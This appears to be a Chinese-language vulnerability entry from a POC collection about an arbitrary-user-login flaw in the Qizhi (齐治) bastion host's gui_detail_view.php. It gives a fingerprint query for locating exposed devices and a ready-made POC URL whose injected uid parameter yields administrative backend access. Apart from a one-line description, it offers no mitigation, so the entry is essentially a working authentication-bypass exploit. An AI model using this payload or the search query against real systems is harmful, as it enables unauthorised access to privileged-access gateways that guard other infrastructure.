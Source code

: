 # 齐治堡垒机 gui_detail_view.php 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

<a-checkbox checked>齐治堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="齐治科技-堡垒机"</a-checkbox></br>

## 漏洞复现

漏洞POC为

```plain
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/qz-1.png)